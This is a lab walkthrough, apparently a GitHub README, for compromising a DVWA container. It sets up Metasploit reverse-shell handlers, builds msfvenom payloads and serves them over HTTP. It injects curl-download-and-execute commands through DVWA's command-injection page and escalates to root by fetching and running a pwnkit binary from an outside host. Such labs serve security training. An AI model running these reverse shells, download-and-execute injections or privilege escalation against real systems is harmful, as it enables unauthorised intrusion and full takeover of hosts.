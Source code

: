 - start the metasploit framework for the DVWA container connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- login via another console to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

- create the reverse shell for the docker host

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<kali privat ip> LPORT=4243 -f elf > met-host
```

- start the metasploit framework for the docker host connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/shell/reverse_tcp;set lhost 0.0.0.0; set lport 4243;run'
```

- login via another console to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

Start the on liner web server that the victim can download the shells

```bash
ruby -run -ehttpd . -p8001
```

- execute the DVWA command injection exploit. After re-login go to [http://<ubuntu public ip>:8080/vulnerabilities/exec/](http://<ubuntu public ip>:8080/vulnerabilities/exec/) and execute the following commands.

```
;curl -vk http://<kali privat ip>:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met
```

- now you have a reverse meterpreter connection from the container, type `shell` to get a bash.
- get root within the DVWA container

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
